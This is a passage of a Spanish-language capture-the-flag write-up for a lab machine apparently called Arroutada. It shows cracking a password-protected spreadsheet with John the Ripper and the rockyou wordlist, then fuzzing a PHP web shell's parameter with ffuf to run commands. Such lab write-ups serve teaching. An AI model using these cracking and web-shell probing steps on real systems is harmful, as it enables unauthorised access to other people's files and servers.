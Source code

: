 Ese shellfile.ods lo vamos esta con contraseña, asi que lo mandamos con john para encontrar la contraseña.

```
❯ file shellfile.ods  
shellfile.ods: OpenDocument Spreadsheet
                                                                                
❯ libreoffice2john shellfile.ods > shellhash
                                                                                
❯ john shellhash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (ODF, OpenDocument Star/Libre/OpenOffice [PBKDF2-SHA1 256/256 AVX2 8x BF/AES])
Cost 1 (iteration count) is 100000 for all loaded hashes
Cost 2 (crypto [0=Blowfish 1=AES]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
john11           (shellfile.ods)     
1g 0:00:00:35 DONE (2023-02-24 22:24) 0.02849g/s 471.3p/s 471.3c/s 471.3C/s lachina..emmanuel1
Use the "--show --format=ODF" options to display all of the cracked passwords reliably
Session completed.
```

Ya con la contraseña entramos al archivo que basicamente se abre con un excel o con la version de libreoffice

El archivo nos deja ver un nuevo path

![](img/Arroutada/arroutada1.png)

Entrando a la pagina con /thebasshell.php nos da una pagina en blanco.
Viendo bien la imagen nos dice que odia mucho hacer fuzzing. Asi que tenemos que fuzzear a ver si encontramos algo.

```
❯ ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ -u 'http://10.0.2.16/thejabasshell.php?FUZZ=ls' -fs 0

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.0.2.16/thejabasshell.php?FUZZ=ls
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________
```